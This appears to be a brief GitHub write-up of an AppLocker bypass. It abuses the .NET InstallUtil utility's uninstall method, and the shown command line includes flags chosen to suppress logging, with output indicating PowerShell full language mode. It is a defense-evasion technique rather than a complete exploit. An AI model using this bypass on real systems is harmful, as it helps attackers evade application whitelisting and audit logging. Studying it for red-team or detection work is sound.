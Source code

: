 Description:bypass the AppLocker executable rule by abusing the InstallUtil commmand line utility that allow us to install and unisntall server resources by executing the installer component in a assembly.
Only be using uninstall method since install method require admin priv.

References to add
<img width="1903" height="1079" alt="image" src="https://github.com/user-attachments/assets/cd524f87-76f9-4063-9863-86f2aa7f8333" />

To trigger the bypass we must invoked it through the installutil with /logfile to avoid logging to a file. 
/logfile=false to avoid.
/U to trigger the unisntall method 
```
C:\Users\User\source\repos\ConsoleApp1\ConsoleApp1\bin\x64\Release>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U ConsoleApp1.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.9032.0
Copyright (C) Microsoft Corporation.  All rights reserved.


C:\Users\User\source\repos\ConsoleApp1\ConsoleApp1\bin\x64\Release>type C:\Tools\test.txt
FullLanguage
```
